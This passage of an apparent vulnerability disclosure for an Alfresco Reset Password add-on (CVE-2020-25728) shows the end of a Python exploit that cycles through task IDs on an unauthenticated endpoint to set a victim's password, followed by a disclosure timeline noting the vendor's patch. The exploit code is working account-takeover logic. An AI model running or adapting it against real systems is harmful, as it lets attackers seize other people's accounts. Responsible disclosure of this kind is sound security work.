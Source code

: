 ```python
        "new-password":newPassword,
        "new-password-confirm":newPassword,
        "taskId":"activiti${}".format(retreivedTaskId + i),
        "userToken":victimUser,
        "save":"undefined"
    }
    r = requests.post(host + '/share/proxy/alfresco-noauth/com/flex-solution/applyChangedPassword', json=payload, headers=header, verify=False)
    if (int(r.status_code) == 200):
        print "Password Changed !"
        print "User Name : {}".format(victimUser)
        print "Task ID : {}".format(retreivedTaskId + i)
        print "Password : {}".format(newPassword)
        break
```

### PWN

{{< figure src="/img/Alfresco-Reset-Password-add-on-0-day-Vulnerabilities/pwn.png" width="80%" >}}

### Timeline

- 01/09/2020: Vulnerability Discovery
- 04/09/2020: Vulnerabilities Report 
- 16/09/2020: Vulnerability Patch and the Vendor release a new version 1.2.0
- 17/09/2020: CVE assigned [CVE-2020-25728](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25728)
